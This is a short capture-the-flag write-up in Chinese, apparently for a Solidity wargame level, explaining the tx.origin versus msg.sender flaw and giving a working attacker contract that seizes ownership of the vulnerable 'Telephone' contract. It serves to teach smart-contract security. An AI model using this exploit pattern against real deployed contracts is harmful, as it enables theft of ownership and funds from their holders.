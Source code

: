 ## 0x01 Task

**Mission**: Take ownership

```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## 0x02 Solution

`tx.origin`不太知道。

当我调用合约A中的函数，而在合约A中的函数内部调用了合约B的函数，这种情况下`tx.origin`指向的是我的地址，而`msg.sender`指向的是合约A的地址。

所以针对这道题，另外写个攻击合约就行了

```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Attack {
  Telephone phone;
  // replace target xxx by your instance address
  address target = xxx;

  function Attack() {
      phone = Telephone(target);
  }

  function claimOwnership() public {
      phone.changeOwner(msg.sender);
  }
}
```

检查owner地址

```javascript
await contract.owner()
```

